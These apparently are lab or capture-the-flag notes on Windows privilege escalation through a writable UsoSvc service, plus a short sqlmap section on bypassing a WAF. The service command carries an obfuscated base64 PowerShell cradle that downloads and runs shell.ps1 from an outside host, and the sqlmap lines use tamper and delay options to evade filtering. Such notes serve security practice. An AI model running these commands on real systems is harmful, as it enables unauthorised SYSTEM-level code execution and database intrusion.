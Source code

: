 

# Privesc-Service reg

exploit service genericwrite.

service usosvc

```bash
# exploit service genericwrite. service usosvc
sc.exe config UsoSvc binpath="cmd.exe /c powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA=="
sc.exe config usosvc start= auto
sc.exe qc usosvc
sc.exe start usosvc
```



![image-20221225233737188](./images/image-20221225233737188.png)



# beyond root



## sqlmap tamper

tamper to bypass the unicode things,  delay to deal with waf block.

it takes very long time, and no result.

```bash
locate tamper | grep sqlmap
sqlmap -r getColleages.req --level=3 --risk=1 --current-user

sqlmap -r getColleages.req --level=3 --risk=1 --tamper=charunicodeescape --delay 3 --batch --dbms=mssql --current-user
```
